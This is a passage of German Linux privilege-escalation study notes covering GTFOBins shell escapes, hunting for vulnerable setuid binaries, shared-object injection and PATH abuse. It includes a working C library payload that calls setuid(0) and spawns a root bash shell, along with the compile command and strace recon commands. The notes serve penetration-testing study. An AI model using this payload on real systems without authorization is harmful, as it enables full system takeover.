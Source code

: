 #### Shell Escape Sequences

Wieder auf https://gtfobins.github.io/ nach Sequences suchen.

#### Known Exploits

Mit **lse** nach **Uncommon setuid binaries** suchen. Die Software könnte für Exploits anfällig sein. Die genaue Version kann oft mit dem Parameter -v/--version identifiziert werden. Anschließend searchsploit, google, Github, etc....

#### Shared Object Injection

Mit **strace** kann überprüft werden, welche Shared Objects ein Programm laden will. Wenn ein Shared Object fehlt und dieses Verzeichnis beschreibbar ist, kann dadurch evtl. eine root shell gestartet werden. Hierfür in **lse** nach Bianries mit setuid Bit schauen (oder Find command von oben). Um nun fehlende Shared Objects zu finden, kann folgender Befehl genutzt werden:

```bash
strace <program> 2>&1 | grep -iE "open|access|no such file"
```

Beispiel:

<img src="https://user-images.githubusercontent.com/33549572/88826793-73d21180-d1c9-11ea-939a-ec8cc94e40df.png" alt="image-20200726145804467" style="zoom:80%;" />
![image-20200726145804467](https://user-images.githubusercontent.com/33549572/88826793-73d21180-d1c9-11ea-939a-ec8cc94e40df.png)

Das File libcalc.so befindet sich im beschreibbaren User Directory und kann durch eine eigene .so Datei ersetzt werden. Hierfür muss der exakte Pfad genutzt werden. Das .so File wird wie folgt erzeugt:

```bash
#Programmname libcalc.c

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));
void inject() {
	setuid(0);
	system("/bin/bash -p");
}

#Kompilieren: gcc -shared -fPIC -o libcalc.so libcalc.c
#Programm ausführen..
```

#### PATH Environment Variable

Wenn ein SUID Programm ein anderes Programm startet, könnte dies für PrivEsc ausgenutzt werden. Programmnamen werden in binaries oft als String gespeichert. Daher ist es z.B. möglich, mittels `strings` nach so einem Programm zu suchen. Weitere Methoden sind:

```bash
strace -v -f -e execve <command> 2>&1 | grep exec
ltrace <command>
```
